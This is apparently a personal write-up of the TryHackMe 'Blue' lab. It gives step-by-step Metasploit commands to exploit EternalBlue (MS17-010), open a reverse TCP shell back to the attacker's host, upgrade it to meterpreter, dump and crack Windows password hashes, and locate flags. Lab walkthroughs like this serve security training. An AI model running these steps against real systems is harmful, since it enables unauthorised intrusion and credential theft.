


Blue
====

TryHackMe's Blue is almost the same as VM's in the Metasploit Rooms but it tells you to do a lil extra and look a little further, which is kinda nice.

First step to this is to get the VM's IP and do an NMAP on it via this command: `nmap -sV -Pn -v -sC IP_ADDR` 



When you are looking through the output, you see in the `smb-os-discovery` that the machine is running a version that is vulnerable to the eternalblue exploit (yay) and we can use metasploit to get access to this VM.

Run metasploit using `msfconsole` and run this command: `use exploit/windows/smb/ms17_010_eternalblue`. You are told to use a different payload instead of the default one, you can change the payload using this: `set payload windows/x64/shell/reverse_tcp`. This payload will directly give you a shell instead of a meterpreter shell. Change the RHOST (the machine you're targetting) using `set RHOSTS IP_ADDR` and your LHOST (if you're not on AttackBox) with the IP you were provided by the VPN using this command: `set LHOST IP_ADDR`

Run the exploit with `run` and you will be given a shell. Background this using Ctrl+Z and then find a post-exploiation module which will give you a meterpreter shell. This will be the post/multi/manage/shell_to_meterpreter module. type `use post/multi/manage/shell_to_meterpreter` and check the session number for your background tasks by typing `sessions`. Usually this should be 1 and you run following command `set session NUM`. It should be successful when this output shows:



Change the session by using the following command: `sessions -i NUM` (Here, you use 2) and you will be given a meterpreter shell. Here you can do `hashdump` and get the hashes for all users, we can crack these by using john the ripper with the NT format. Jon's password is alqfna22.

To find the flags, drop to shell using the `shell` command and look in the following places:
```
1. C:\
2. C:\Windows\System32\config
3. C:\Users\Jon\Documents
```
